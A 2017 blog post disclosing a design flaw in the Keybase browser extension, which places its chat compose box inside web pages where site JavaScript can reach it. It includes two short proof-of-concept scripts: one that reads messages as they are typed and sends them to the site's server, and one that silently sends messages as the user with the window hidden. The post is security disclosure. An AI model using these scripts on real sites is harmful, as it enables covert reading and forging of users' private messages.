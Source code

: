 ```yaml
---
title: "Keybase Browser Extension Insecure"
date: Sat, 05 Aug 2017 10:26:45 GMT
draft: false
type: posts
---
```

# Keybase Browser Extension Insecure





Yesterday, I discovered that Keybase has a browser extension for both Firefox and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When

Yesterday, I discovered that [Keybase](https://keybase.io) has a browser extension for both [Firefox](https://firefox.com) and Chrome. It activates whenever you land on a profile page on keybase.io, or a website which Keybase uses for proofs (currently Reddit, Twitter, Facebook, Github, Hacker News). It places a “Keybase Chat” button on the page. When you press this button, a compose window opens, you enter a message, and then the addon contacts your keybase desktop app in order to send a message to that user.

If you are lucky enough to discover the extension by visiting [https://keybase.io/docs/extension](https://keybase.io/docs/extension) and by actually reading the content of the page, you will come across this little bit of information:

> “The Keybase extension uses a compose box inside your browser. If you fear your browser or the social network site’s JavaScript has been compromised – say by another extension or even the social network acting fishy – then just compose the message inside the Keybase app directly. Or send a quick hello note through the extension and save the jucier private details for inside the app.”

This information is **not** on the Firefox or Chrome extension stores.

But what does it _actually_ mean?

It means that Reddit, Twitter, Facebook, Github, Hacker News, Keybase and any other site that they allow to execute JavaScript on their pages can perform the following actions if you visit their websites with the addon installed:

1.  Read any message that you type into the compose box, as you’re typing it.
2.  Send chat messages from you to other Keybase users.

For #1, to read the messages you are composing they simply need to serve up a small amount of JavaScript similar to the following when you visit:

```
if (document.querySelector('.keybase-chat')) {
  let msg = '';
  setInterval(() => {
    const t = document.querySelector('.keybase-reply textarea');
    if (!t || t.value.length === 0 || t.value === msg) return;
    msg = t.value;
    fetch('/report-keybase-chat?msg=' + encodeURIComponent(msg));
  }, 1000);
}
```

In the above code, the first line detects if the user has the keybase addon. If they do, it runs a check on a 1 second interval to see if there is a Keybase composer window open with a message in it. If there is, and the message being composed is different to what it was 1 second ago, then an ajax request is performed to send the content of that message to the server.

For #2, to send a message to a keybase user silently:

```
function sendKeybaseMessage(msg) {

  const s = document.createElement('style');
  s.type = 'text/css';
  s.textContent = '.keybase-reply{opacity:0 !important}';
  document.head.appendChild(s);

  document.querySelector('.keybase-chat').click();
  document.querySelector('.keybase-reply textarea').value = msg;
  const event = new UIEvent('change', { view: window, bubbles: true, cancelable: true });
  document.querySelector('.keybase-reply textarea').dispatchEvent(event);
  document.querySelector('.keybase-reply input[name="keybase-submit"]').click();
  document.querySelector('.keybase-close').click();
  s.remove();

}
```

The “style” related code is there to make sure that the user doesn’t notice the compose window opening and being filled with a message, and the message being sent, by making it invisible temporarily. To specify a recipient other than the one in the profile being viewed, a little more work would need to be done by the server to temporarily redirect you to a different profile page, but it would work.

The troubling thing is, they could actually have made this secure. As well as the chat functionality that they inject into the browsers DOM, they also add a Keybase icon into the browser UI it’s self, outside of the DOM. Clicking on that icon works exactly the same, except it doesn’t inject anything into the DOM, the compose window is outside of the webpage, making it obvious that the browser is in control rather than the webpage. The textarea can not be read and it can not be interacted with from JavaScript.

**Conclusion** : Continue installing and using the excellent desktop app. Don’t even think about installing the browser addon.

[![](https://www.grepular.com/images/amazon/yubikey_nano.jpg)](https://www.grepular.com/redir?key=amazon_yubikey_nano "Yubikey Nano") [![](https://www.grepular.com/images/amazon/saving_bletchley_park.jpg)](https://www.grepular.com/redir?key=amazon_saving_bletchley_park "Saving Bletchley Park")

#### [Source](https://www.grepular.com/Keybase_Browser_Extension_Insecure)

